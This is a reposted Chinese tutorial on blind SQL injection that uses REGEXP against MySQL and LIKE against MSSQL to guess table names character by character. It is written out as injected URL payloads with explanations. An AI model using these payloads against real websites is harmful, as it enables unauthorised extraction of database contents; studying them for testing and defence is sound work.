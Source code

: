 ```yaml
---
layout: default
category: Web安全
tags: [SQL注入]
---
```




#  [转载\]sql 盲注之正则表达式攻击](https://www.cnblogs.com/lcamry/articles/5717442.html)



-----------------------------------------MYSQL 5+-----------------------------------------

我们都已经知道，在MYSQL 5+中 information_schema库中存储了所有的 库名，表明以及字段名信息。故攻击方式如下：

\1. 判断第一个表名的第一个字符是否是a-z中的字符,其中blind_sqli是假设已知的库名。

注：正则表达式中 ^[a-z] 表示字符串中开始字符是在 a-z范围内

index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-z]' LIMIT 0,1) /*

\2. 判断第一个字符是否是a-n中的字符

index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-n]' LIMIT 0,1)/*

\3. 确定该字符为n

index.php?id=1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^n' LIMIT 0,1) /*

\4. 表达式的更换如下

expression like this: '^n[a-z]' -> '^ne[a-z]' -> '^new[a-z]' -> '^news[a-z]' -> FALSE

这时说明表名为news ，要验证是否是该表明 正则表达式为'^news$'，但是没这必要 直接判断 table_name = ’news‘ 不就行了。

5.接下来猜解其它表了 **（只需要修改 limit 1,1 -> limit 2,1就可以对接下来的表进行盲注了）这里是错误的！！！**

regexp匹配的时候会在所有的项都进行匹配。例如：

security数据库的表有多个，users，email等

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^u[a-z]' limit 0,1);是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1);是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^em[a-z]' limit 0,1);是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 1,1);不正确

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^em[a-z]' limit 1,1);不正确

实验表明：在limit 0,1下，regexp会匹配所有的项。我们在使用regexp时，要注意有可能有多个项，同时要一个个字符去爆破。类似于上述第一条和第二条。而此时limit 0,1此时是对于where table_schema='security' limit 0,1。table_schema='security'已经起到了限定作用了，limit有没有已经不重要了。

 

-----------------------------------------------MSSQL---------------------------------------------------

MSSQL所用的正则表达式并不是标准正则表达式 ，该表达式使用 like关键词

default.asp?id=1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name LIKE '[a-z]%' )

该查询语句中，select top 1 是一个组合哦，不要看错了。

如果要查询其它的表名，由于不能像mysql哪样用limit x,1，只能使用 table_name not in (select top x table_name from information_schema.tables) 意义是：表名没有在前x行里，其实查询的就是第x+1行。

例如 查询第二行的表名：

default.asp?id=1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name NOT IN ( SELECT TOP 1 table_name FROM information_schema.tables) and table_name LIKE '[a-z]%' )

表达式的顺序：

'n[a-z]%' -> 'ne[a-z]%' -> 'new[a-z]%' -> 'news[a-z]%' -> TRUE

之所以表达式 news[a-z]查询后返回正确是应为%代表0-n个字符，使用"_"则只能代表一个字符。故确认后续是否还有字符克用如下表达式

'news%' TRUE -> 'news_' FALSE

同理可以用相同的方法获取字段，值。这里就不再详细描述了。
